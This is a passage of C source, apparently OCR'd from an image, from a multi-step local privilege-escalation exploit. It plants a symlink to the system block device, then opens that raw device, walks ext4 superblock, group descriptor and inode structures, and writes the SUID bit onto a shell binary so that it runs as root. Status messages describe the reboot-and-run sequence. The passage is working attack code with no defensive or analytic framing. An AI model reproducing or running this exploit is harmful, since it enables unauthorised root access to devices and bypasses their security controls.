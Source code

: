 		 
		    char path[1024];
		    get_system_dev(path, sizeof(path));
		    symlink(path, FIFO_DAT);
		 
		    printf("[+] Symlink is created, please reboot device and run second step.\n[+] The device may slow down, after second step will work normally.\n");
		}
		void second_step()
		{
		    char path[1024];
		    struct stat s;
		 
		    unlink(FIFO_DAT);
		 
		    stat(SH, &s);
		    printf("[+] Looking for inode no.: %llu\n", s.st_ino);
		 
		    get_system_dev(path, sizeof(path));
		 
		    int fd = open(path, O_RDWR);
		    if( fd != -1 )
		    {
		        int inodeno = s.st_ino;
		        struct ext4_super_block super;
		        struct ext4_group_desc group_descr;
		        struct ext4_inode inode;
		 
		        unsigned long int offset=0;
		        lseek(fd, 0x400, SEEK_SET);
		 
		        read(fd, &super, sizeof(super));
		 
		        int block_size = 1024 << super.s_log_block_size;
		        int bg = (inodeno-1) /super.s_inodes_per_group;
		 
		        lseek(fd, block_size + bg * (super.s_desc_size ? super.s_desc_size : sizeof(struct ext4_group_desc) ), SEEK_SET);
		        read(fd, &group_descr, sizeof(group_descr));
		 
		 
		        unsigned int index = (inodeno-1) % super.s_inodes_per_group;
		        unsigned int off = index *  super.s_inode_size;
		        unsigned long total_offset = block_size + (group_descr.bg_inode_table_lo-1) * block_size + off;
		 
		        lseek(fd, total_offset, SEEK_SET);
		        read(fd, &inode, sizeof(struct ext4_inode));
		 
		        if(inode.i_size_lo == s.st_size) {
		            __le16 mode = 0;
		            printf("[+] Found inode!\n");
		            lseek(fd, total_offset, SEEK_SET);
		 
		            inode.i_mode = inode.i_mode | 0x800;
		 
		            int modesize = sizeof(inode.i_mode);
		            int wr = write(fd, &inode.i_mode, modesize);
		 
		            if( wr == modesize )
		            {
		                printf("[+] Success, bit SUID is setted on %s\n[+] You must reboot the device to run third step\n", SH);
		            }
		            else
		            {
		                printf("[-] Can't set bit SUID on %s\n", SH);
		            }
		        }
		        else
		        {
		            printf("[-] Can't find inode!\n");